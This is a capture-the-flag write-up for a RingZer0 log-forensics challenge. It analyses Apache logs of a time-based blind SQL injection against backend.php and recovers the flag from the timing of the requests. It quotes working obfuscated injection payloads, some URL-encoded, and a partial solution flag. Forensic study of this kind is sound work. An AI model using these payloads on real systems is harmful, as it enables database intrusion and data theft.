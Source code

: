 Challenge: https://ringzer0ctf.com/challenges/164

# First look
We observe that as we unzip the attached file we've got a web server's log file. Likely it is a Apache server or similar. We start checking the different petitions being made and easily we observe that there are some strange payloads hidden in the petitions to `backednd.php` page, specially trying to bypass the `admin` user.

```
admin%27%20AND%20IF%28/%2AIlPNSD1%2A/SUBSTRING%28REVERSE%28/%2A0zS7LBwEN%2A/CONV%28HEX%28SUBSTRING%28/%2A9ZCMRCCd9%2A/%28SELECT%20database%28%29%29%2C1%2C1%29%29%2C16%2C2%29%29/%2AZaoJyioC8p%2A/%2C2%2C1%29%3D1%2CSLEEP%282%29%2C98647132%29%20AND%20%2742

admin' AND IF(/*IlPNSD1*/SUBSTRING(REVERSE(/*0zS7LBwEN*/CONV(HEX(SUBSTRING(/*9ZCMRCCd9*/(SELECT database()),1,1)),16,2))/*9ZCMRCCd9*/,2,1)=1,SLEEP(2),98647132) AND '42
```

We can easily observe that the attacker is checking multiple users by entering some kind of ID or cookie related to them in the early access. As we can observe, the response size of each individual GET is different, so we shall suppose that the attacker is accessing to different users' info. 


Later on we see how they try to access the following table and schema:
```
10.0.1.1 - - [01/Mar/2015:13:14:45 -0500] "GET /backend.php?user=admin' AND IF(/*iC*/SUBSTRING(REVERSE(/*dzzYaxYMNEJ*/CONV(HEX(SUBSTRING(/*bgv9*/(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE TABLE_SCHEMA = 0x63686172745f6462 AND TABLE_NAME = 0x666c6167/*EGi*/),5,1)),16,2))/*wpDrzIP*/,1,1)=1,SLEEP(2),777525694) AND


0x63686172745f6462 -> chart_db
0x666c6167 -> flag
```

It definitelly looks like it's using sqlmap and some sort of timed way to extract the flag. After filtering a little bit the logs and removing unnecessary logs (the ones not starting by `admin'`) we observe how it's using the conversion from hex to binary of some SQL queries and extracting one single bit to later on sleep during 2 seconds depending on the bit value. So, bit to bit the queries shows the names of the database:

0x63686172745f6462 ->  chart_db

Then it obtains the tables 

0x666c6167 -> flag

And the name of the column -> flag 

Ending with the reception of the flag with the following queries

```
[01/Mar/2015:13:15:03] "GET /backend.php?user=admin' AND IF(SUBSTRING(REVERSE(CONV(HEX(SUBSTRING((SELECT GROUP_CONCAT(CONCAT(flag)) FROM chart_db.flag),1,1)),16,2)),1,1)=1,SLEEP(2),3724) AND '16173 HTTP/1.1" 200 431
```

After some manual clean up of the information in all the logs related to the flag extraction, I've came up with a CSV where each row contains the timestamp (mm:ss) of the petition (since the rest of the timestamp is constant), then the offset of the character being retieved and the third and last column is the offset of the bit being obtained. Example of the first entries above:

```
15:03,1,1
15:03,1,2
15:05,1,3
15:07,1,4
15:07,1,5
15:07,1,6
15:07,1,7
15:09,2,1
15:09,2,2
15:09,2,3
15:11,2,4
15:13,2,5

...
```

Then, I've created a simple python script where we automatically reconstruct each character by checking the timestamps of the current petition and the next one. If the offset is equal (or greater) than 2, then we know that the bit of the position given by the third column is a 1, otherwise it is 0. We have initially constructed a list of zeros with the length equal to the num of chars (maximum value of the second column -> 38) and then we populate each bit according to the logs of the execution of the database.

Finally we are able to reconstruct the flag:

```
Raw flag
[70, 76, 65, 71, 45, 111, 122, 53 ...]
The flag decoded is -> FLAG-oz...
```